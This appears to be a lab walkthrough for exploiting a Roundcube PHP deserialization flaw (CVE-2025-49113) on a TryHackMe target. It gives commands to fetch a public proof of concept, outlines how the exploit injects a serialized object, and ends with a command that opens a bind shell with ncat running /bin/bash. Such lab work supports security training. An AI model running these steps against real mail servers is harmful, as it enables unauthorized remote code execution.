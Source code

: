First, set up your environment variables and verify the target is accessible:

```bash
# Set target information
TARGET_IP="10.10.70.29"  # Replace with your machine IP
ROUNDCUBE_URL="http://$TARGET_IP/roundcube"
USERNAME="ellieptic"
PASSWORD="ChangeMe123"

# Check if target is reachable
ping -c 1 $TARGET_IP
curl -s $ROUNDCUBE_URL
```

**Expected Output:**
- Ping should show successful response
- Curl should return HTML content from Roundcube

### Step 2: Download and Setup the Exploit

```bash
# Clone the exploit repository
git clone https://github.com/fearsoff-org/CVE-2025-49113
cd CVE-2025-49113

# Verify the exploit file exists
ls -la CVE-2025-49113.php
```

**If git clone fails (for free TryHackMe users):**
```bash
# Create the directory and file manually
mkdir CVE-2025-49113
cd CVE-2025-49113

# Copy the exploit code from GitHub and save as CVE-2025-49113.php
nano CVE-2025-49113.php
# Paste the exploit code and save
```

### Step 3: Understand the Exploit Flow

The PoC exploit performs these critical steps:

1. **Session Establishment**: Retrieves CSRF token and session cookie
2. **Authentication**: Logs in using provided credentials
3. **Payload Crafting**: Creates malicious serialized PHP object
4. **Injection**: Embeds the object in the `_from` parameter
5. **Execution**: Posts to `upload.php` endpoint for deserialization

### Step 4: Execute the Exploit (Bind Shell Method)

```bash
# Execute exploit to create bind shell on port 4444
php CVE-2025-49113.php $ROUNDCUBE_URL $USERNAME $PASSWORD "ncat -lvnp 4444 -e /bin/bash"
```
